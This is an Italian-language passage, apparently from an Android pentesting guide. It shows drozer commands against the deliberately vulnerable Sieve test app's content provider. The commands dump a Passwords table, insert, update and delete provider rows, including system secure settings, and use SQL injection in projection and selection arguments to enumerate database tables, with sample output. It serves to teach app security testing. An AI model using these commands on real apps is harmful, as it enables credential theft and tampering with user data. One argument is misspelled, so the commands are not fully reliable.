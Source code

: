 ```sh
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
```
	
```
     _id  1
 service  amazon.com
username  my-username
password  Su2BcNE5fofOONqpeLrLJQ9OsGQHZ3mrfqo/ (Base64-encoded)
   email  u@mail.com
```

Puoi anche eseguire insert, update e delete tramite drozer:

```sh
dz> run app.provider.insert content://com.vulnerable.im/messages
	--string date 1331769850325
	--string type 0
	--string _id 7

dz> run app.provider.update content://settings/secure
	--selection "name=?"
	--selection-args assisted_gps_enabled
	--integer value 0

dz> run app.provider.delete content://settings/secure
	--selection "name=?"
	--seelction-args my_settings
```

Puoi provare delle SQL injection tramite drozer:

```sh
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'" unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')

Puoi sfruttare una vulnerabilità di SQL injection per enumerare le tabelle dal database

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```
	
```
| type
| name
| tbl_name
| rootpage | sql
|
| table | android_metadata | android_metadata | 3 | CREATE TABLE ... |
| table | Passwords | Passwords | 4 | CREATE TABLE ... |
| table | Key | Key | 5 | CREATE TABLE ... |
```
